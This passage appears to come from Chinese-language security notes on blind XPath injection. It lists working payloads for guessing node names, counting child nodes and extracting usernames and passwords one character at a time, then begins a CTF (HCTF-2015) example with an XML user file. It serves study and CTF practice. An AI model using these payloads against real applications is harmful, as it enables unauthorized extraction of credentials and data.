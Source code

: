 > ```
> 'or substring(name(/accounts/user[position()=1]/*[1]), 1)='username'  or ''='
> 'or substring(name(/accounts/user[position()=1]/*[2]), 1)='email'  or ''='
> 'or substring(name(/accounts/user[position()=1]/*[3]), 1)='accounttype'  or ''='
> 'or substring(name(/accounts/user[position()=1]/*[4]), 1)='password'  or ''='
> ```
>
> 继续猜解：
>
> ```
> 'or count(/accounts/user[position()=1]/username/*)>0 or ''='   
> 'or count(/accounts/user[position()=1]/email/*)>0 or ''=' 
> 'or count(/accounts/user[position()=1]/accounttype/*)>0 or ''='
> 'or count(/accounts/user[position()=1]/username/password/*)>0 or ''='
> ```
>
> 均为 false，不再有子节点，则可以尝试读取这些节点的值 第一个user下的username值长度为6:
>
> ```
> 'or string-length((//user[position()=1]/username[position()=1]))=6  or ''='
> ```
>
> 读取第一个user下usernaem的值
>
> ```
> 'or substring((//user[position()=1]/username[position()=1]),1,1)='T'  or ''='
> ....
> 'or substring((//user[position()=1]/username[position()=1]),6,1)='e'  or ''='
> ```
>
> 可依次读取所有的子节点的值，第二user节点的子节点值读取方式：
>
> ```
> 'or string-length((//user[position()=2]/username[position()=1]))=4 or ''='  第一个user下的username长度为4
> ......
> ```
>
> 重复上边步骤即可

## 3.1. CTF-01

HCTF-2015

~~~xml
<!--t3stt3st.xml-->
<?xml version="1.0" encoding="utf-8"?>
<root1>
	<user>
		<username name='user1'>user1</username>
		<key>KEY:1</key>            
		<username name='user2'>user2</username>
		<key>KEY:2</key>            
		<username name='user3'>user3</username>
		<key>KEY:3</key>            
		<username name='user4'>user4</username>
		<key>KEY:4</key>            
		<username name='user5'>user5</username>
		<key>KEY:5</key>            
		<username name='user6'>user6</username>
		<key>KEY:6</key>            
		<username name='user7'>user7</username>
		<key>KEY:7</key>            
		<username name='user8'>user8</username>
		<key>KEY:8</key>            
~~~
